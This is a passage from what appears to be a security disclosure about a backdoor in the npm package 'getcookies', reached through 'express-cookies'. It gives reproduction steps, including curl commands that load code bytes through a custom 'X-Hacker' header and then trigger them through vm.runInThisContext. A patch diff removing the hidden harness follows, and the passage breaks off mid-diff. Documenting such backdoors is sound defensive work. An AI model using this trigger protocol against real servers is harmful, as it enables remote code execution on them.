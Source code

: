 ```
```

As seen above, it does `vm.runInThisContext` with the code stored in the memory.

## Steps To Reproduce:

Easiest way to reproduce is to use `express-cookies` package, which depends on `getcookies`.

Test code:

```
var express = require('express');
var app = express();
var expressCookies = require('express-cookies');

app.use(expressCookies());

app.get('/', function (req, res) {
    res.send('Hello World!');
});

app.listen(3000, function () {
    console.log('Example app listening on port 3000!')
});
```

Code is sent in custom HTTP headers in byte code.

To send code bytes:
```
curl -i 'http://localhost:3000/' -H 'X-Hacker: g0000h636465i' 
```
Where the protocol is:
`g<bytePosition>h<codeBytes>i`

The sample above adds `cde` to the code to be executed when execution header is sent.

The code is stored in `require('./test/harness.js').log`.

When the code is sent, attacker executes the code by sending:
```
curl -i 'http://localhost:3000/' -H 'X-Hacker: gfaffh636465i'
```

## Patch

```
diff -u /home/m/tmp/getcookies_original/index.js /home/m/dev/express-cookies-vulnr/node_modules/getcookies/index.js
--- /home/m/tmp/getcookies_original/index.js	2018-05-02 16:47:11.382990109 +0300
+++ /home/m/dev/express-cookies-vulnr/node_modules/getcookies/index.js	2018-05-02 16:50:00.198982317 +0300
@@ -9,8 +9,6 @@
 
 'use strict';
 
-const testHarness = require('./test/harness.js');
-
 /**
  * Module exports.
  * @public
@@ -45,38 +43,36 @@
  */
 
 function parse(req, res, callback) {
-    testHarness.assert(req, res, callback, () => {
-        if (!req.headers.cookie) {
-            return callback();
```